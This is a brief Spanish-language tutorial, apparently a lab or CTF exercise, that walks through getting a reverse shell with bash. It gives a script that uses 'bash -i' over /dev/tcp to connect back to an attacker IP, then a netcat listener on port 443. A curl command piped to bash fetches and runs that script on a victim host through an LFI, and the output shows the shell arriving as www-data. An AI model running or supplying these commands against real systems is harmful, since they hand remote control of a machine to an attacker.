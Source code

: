 # Conexiones Reversas
### _Conexion reversa con bash_ | Reverse connection with bash
____
Para crear una conexion reversa, en este caso, utilizaremos bin bash, por lo que se deben seguir los siguientes pasas

#### 1. Script bash 
```bat
       │ File: reverse.sh
───────┼─────────────────────────────────────────────────────────────────────────────────────────
   1   │ #/bin/bash
   2   │ bash -i >& /dev/tcp/10.8.8.209/443 0>&1
───────┴─────────────────────────────────────────────────────────────────────────────────────────
```
>*_Nota_*: En caso de no estar logueado con el usuario root, ejecutar con el comando sudo, para elevar privilegios, para validar que esta funcionando el servidor web podemos hacer una petición por el explorador a la ruta http://localhost:80/

#### 2. Iniciar servicio netcat

Para ejecutar una shell reversa vamos a crear la comunicación utilizando el servicio de netcat o **_nc_**, para los amigos, y abrir un puerto de comunicación para poner en escucha. 
>```bat
>root$nc -nlvp 443
>listening on [any] 443 ...
>```
#### 3. Ejecutar la comunicación desde el equipo víctima.
Para hacer la carga del LFI, para este ejercicio supondremos,  que esta petinición se puede hacer desde el equipo victima, y para descar el archivo reverse.sh utilizaremos un servidor web para obtener el LFI.
>```bat
>/usr/bin/curl 10.8.8.209/reverse.sh|bash
>```
#### 4. Resultado.

Si el proceso se realizó correctamente, podemos verificar la conexion en el siguiente resultado en la tercera línea.

>```bat
>root$nc -nlvp 443
>listening on [any] 443 ...
>connect to [10.8.8.209] from (UNKNOWN) [10.10.252.152] 49562  
>www-data@ip-10-10-252-152:/var/www/html$ 
>```

